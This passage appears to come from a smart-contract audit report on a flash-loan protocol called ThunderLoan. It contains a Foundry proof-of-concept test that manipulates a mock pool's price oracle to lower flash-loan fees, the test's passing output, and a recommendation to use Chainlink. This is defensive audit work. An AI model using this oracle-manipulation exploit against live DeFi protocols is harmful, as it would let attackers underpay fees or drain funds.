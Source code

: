 The following test first calls `flashloan()` with the attacking contract, the `executeOperation()` callback then executes the attack.

```solidity
function test_poc_smallFeeReentrancy() public setAllowedToken hasDeposits {
    uint256 price = MockTSwapPool(tokenToPool[address(tokenA)]).price();
    console.log("price before: ", price);
    // borrow a large amount to perform the price oracle manipulation
    uint256 amountToBorrow = 1e6;
    bool isFirstCall = true;
    bytes memory params = abi.encode(isFirstCall);

    uint256 expectedSecondFee = thunderLoan.getCalculatedFee(tokenA, attackFlashLoanReceiver.attackAmount());

    // Give the attacking contract reserve tokens for the price oracle manipulation & paying fees
    // For a less funded attacker, they could use the initial flash loan to perform the manipulation but pay a higher initial fee
    tokenA.mint(address(attackFlashLoanReceiver), AMOUNT);

    vm.startPrank(user);
    thunderLoan.flashloan(address(attackFlashLoanReceiver), tokenA, amountToBorrow, params);
    vm.stopPrank();
    assertGt(expectedSecondFee, attackFlashLoanReceiver.attackFee2());
    uint256 priceAfter = MockTSwapPool(tokenToPool[address(tokenA)]).price();
    console.log("price after: ", priceAfter);

    console.log("expectedSecondFee: ", expectedSecondFee);
    console.log("attackFee2: ", attackFlashLoanReceiver.attackFee2());
    console.log("attackFee1: ", attackFlashLoanReceiver.attackFee1());
}
```

```bash
$ forge test --mt test_poc_smallFeeReentrancy -vvvv

// output
Running 1 test for test/unit/ThunderLoanTest.t.sol:ThunderLoanTest
[PASS] test_poc_smallFeeReentrancy() (gas: 1162442)
Logs:
  price before:  1000000000000000000
  price after:  1000000000000000
  expectedSecondFee:  300000000000000000
  attackFee2:  300000000000000
  attackFee1:  3000
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.52ms
```

Since the test passed, the fee has been successfully reduced due to price oracle manipulation.

## Recommended mitigation

Use a manipulation-resistant oracle such as Chainlink.

## Tools used

- Forge
